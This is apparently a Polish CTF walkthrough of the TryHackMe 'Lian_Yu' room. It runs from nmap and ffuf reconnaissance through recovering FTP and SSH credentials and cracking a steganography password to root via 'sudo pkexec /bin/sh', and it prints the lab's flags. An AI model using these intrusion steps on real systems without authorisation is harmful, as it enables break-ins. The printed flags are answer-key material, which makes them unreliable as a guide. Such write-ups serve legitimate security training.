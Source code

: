# Lian_Yu
IP=10.10.150.110

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.150.110   
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-29 11:01 EDT
Nmap scan report for 10.10.150.110
Host is up (0.059s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-title: Purgatory
|_http-server-header: Apache
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          40675/udp   status
|   100024  1          42048/tcp   status
|   100024  1          45620/udp6  status
|_  100024  1          58428/tcp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.33 seconds
```

Zostały wykryte cztery porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Widzimy stronę nawiązującą do serii seriali Arrowverse, przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.150.110/FUZZ -c 
```

Otrzymujemy następujące wyniki:

![Ffuf1](img/Ffuf1.JPG)

Przechodzimy do katalogu "island":

![Island](img/Island.JPG)

W źródle strony znajdujemy prawdopodobny login użytkownika:

![Islandv2](img/Islandv2.JPG)

```
vigilante
```

Kontynuujemy dalszą enumerację:

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.150.110/island/FUZZ -c
```

![Ffuf2](img/Ffuf2.JPG)

Przechodzimy do katalogu "2100":

![2100](img/2100.JPG)

W źródle strony znajdujemy podpowiedź, aby szukać na serwerze plików z rozszerzeniem .ticket:

![Ticket](img/Ticket.JPG)

Rozpoczynamy enumerację plików z rozszerzeniem .ticket:

![Ffuf3](img/Ffuf3.JPG)

Znajdujemy plik "green_arrow.ticket":

![Token](img/Token.JPG)

```
RTy8yhBQdscX
```

Za pomocą [CyberChef'a](https://gchq.github.io/CyberChef/) dekodujemy hasło przy użyciu Base58:

![Chef](img/Chef.JPG)

```
!#th3h00d
```

### Port 21

Logujemy się do serwisu FTP za pomocą znalezionych danych i pobieramy znajdujące się tam pliki:

```
vigilante:!#th3h00d
```

![FTP](img/FTP.JPG)


W pobranym pliku .other_user znajdujemy potencjalną nazwę użytkownika:

![Other](img/Other.JPG)

```
slade
```

Przechodzimy do analizy pobranych zdjęć. Za pomocą narzędzia StegCracker łamiemy hasło do pliku aa.jpg:

![StegCracker](img/StegCracker.JPG)

```
password
```
Wykorzystując program StegHide otrzymujemy dostęp do ukrytych informacji:

[Aa](img/Aa.JPG)

### Port 22

Plik shado zawiera potencjalne hasło. Próbujemy zalogować się do serwisu SSH przy pomocą znalezionych danych:

```
slade:M3tahuman
```

[SSH](img/SSH.JPG)

 w pliku user.txt znajdujemy pierwszą flagę:

[Flag1](img/Flag1.JPG)

```
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
```

## Zwiększenie poziomu uprawnień

Za pomocą poniższej komendy sprawdzamy uprawnienia użytkownika slade:

```
sudo -l
```

[Pkexec](img/Pkexec.JPG)

Użytkownik slade może uruchomić komendę pkexec jako root. Wykorzystujemy to do uzyskania dostępu do konta root:

```
sudo pkexec /bin/sh
```

[Root](img/Root.JPG)

W pliku root.txt znajdujemy drugą flagę:

[Flag2](img/Flag2.JPG)

```
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```

Do zobaczenia na kolejnych CTF-ach!

